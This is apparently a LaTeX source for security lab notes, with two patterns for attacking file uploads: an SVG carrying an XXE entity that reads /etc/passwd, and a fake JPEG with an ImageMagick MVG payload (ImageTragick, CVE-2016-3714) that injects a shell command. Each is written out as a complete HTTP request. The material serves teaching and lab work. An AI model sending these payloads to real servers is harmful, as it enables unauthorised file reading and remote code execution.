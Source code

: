 \documentclass[11pt]{article}
\begin{document}
\begin{labbox}{Lab pattern: XXE via an uploaded XML-based document}
A \texttt{.docx} file is really a ZIP archive of XML parts. Replacing one of those XML parts (for example \texttt{word/document.xml} or, more simply, an uploaded raw \texttt{.svg}, which is XML natively) with a document that declares an external entity is often enough if the parser resolves entities by default:
\begin{lstlisting}[language=http]
POST /documents/upload HTTP/1.1
Host: vulnerable-website.com
Content-Length: 236
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
 
------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="exploit.svg"
Content-Type: image/svg+xml
 
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg">
<text>&xxe;</text>
</svg>
------WebKitFormBoundary--
\end{lstlisting}
If the server renders or otherwise processes this SVG server-side (for example to generate a thumbnail) and echoes or stores the result, the resolved entity leaks the contents of \texttt{/etc/passwd} into the output -- confirming out-of-the-box XXE through what looks like an ordinary image upload.
\end{labbox}
 
\begin{labbox}{Lab pattern: ImageTragick (CVE-2016-3714) via a crafted image upload}
Upload a file with an image extension whose content is actually an ImageMagick MVG/MSL command file rather than real image data:
\begin{lstlisting}[language=http]
POST /my-account/avatar HTTP/1.1
Host: vulnerable-website.com
Content-Length: 190
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
 
------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="exploit.jpg"
Content-Type: image/jpeg
 
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/x.jpg"|touch /tmp/pwned)'
pop graphic-context
------WebKitFormBoundary--
\end{lstlisting}
If the backend later runs the uploaded file through ImageMagick to resize or convert it (for example \texttt{convert exploit.jpg thumbnail.png}), the vulnerable \texttt{fill} handler passes the embedded shell command to a pipe, and \texttt{/tmp/pwned} is created on the server -- confirming remote code execution purely through server-side image processing, without needing to bypass any extension or content-type filter at all.
\end{labbox}
\end{document}
